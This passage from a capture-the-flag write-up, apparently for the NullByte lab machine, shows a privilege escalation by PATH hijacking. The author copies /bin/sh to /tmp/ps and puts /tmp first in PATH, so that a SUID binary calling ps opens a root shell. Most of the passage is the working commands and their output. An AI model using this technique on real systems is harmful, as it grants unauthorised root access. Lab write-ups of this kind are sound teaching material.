 I played around with the executable, tried passing arguments, but it looks like it just calls ps and nothing else. In the ps manual, I paid attention to this:

> By default, ps selects all processes with the same effective user ID
> (euid=EUID) as the current user and associated with the same terminal
> as the invoker.

So, we can see the succession for a normal ps is bash -> ps, and for the SUID binary is procwatch -> sh -> ps. Maybe we can intercept the call to ps by creating an arbitrary binary called ps and placing it in the PATH variable. And of course, we want a shell!

``` plain
cp /bin/sh /tmp/ps
```

Let's look at the PATH environment variable:

``` plain
echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Ok, since I've placed the fake ps in /tmp, I want to add that to the path:

``` plain
export PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ramses@NullByte:/var/www/backup$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Fingers crossed, running procwatch again:

``` plain
ramses@NullByte:/var/www/backup$ ./procwatch
# whoami
root
```

And we're root..the right way! :D

``` plain
/ You'll wish that you had done some of \
| the hard things when they were easier |
\ to do.                                /
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
